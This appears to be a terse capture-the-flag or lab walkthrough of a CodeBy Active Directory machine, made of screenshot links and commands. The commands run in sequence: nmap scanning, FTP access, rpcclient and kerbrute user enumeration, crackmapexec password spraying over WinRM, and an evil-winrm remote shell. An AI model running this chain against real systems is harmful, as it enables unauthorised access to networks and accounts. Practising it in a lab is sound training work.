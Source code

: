 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03ab72ad-f5ce-4cba-8cfc-4cef30fce25d)
```
ping 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ee180358-9104-4781-b028-c8db297edcd5)
```
nmap -p- 192.168.2.3 -v -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cdb46432-79fe-41c5-be07-fef63c7ea190)
```
ftp 192.168.2.1
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0eb4650a-2635-4810-b63a-d1b30ae59d85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fb1cc7cd-108e-4619-a67b-b370e1c807e4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d850e7a-db8e-4091-a359-e7c1594a54ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec6b3d6b-97a9-4440-af9e-cdcbc3259206)
```
rpcclient -U login%pass -c "querydispinfo" 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/75d7b9ad-bcce-49e7-9cc5-7bb1f191534a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aeb599c2-ed92-435b-924e-a750977ca5ff)
```
 nmap -p- 192.168.2.3 -v -sC 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dfd819e-5919-4085-8e8d-9c5b9759cde8)

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/
https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.3 users.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db1c1f14-a345-4d96-a554-502f58dae018)
```
crackmapexec winrm 192.168.2.3 -d codeby.cdb -u users.txt -p 'password'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0651e750-814a-4a26-927b-91fae9393692)
```
evil-winrm -i 192.168.2.3 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c55a09ff-833f-4ad3-9fc5-c4effee3d876)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a87855cf-1906-4349-a14a-de031e97b441)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d5ba939e-86ef-43e7-a21f-03145f892c10)



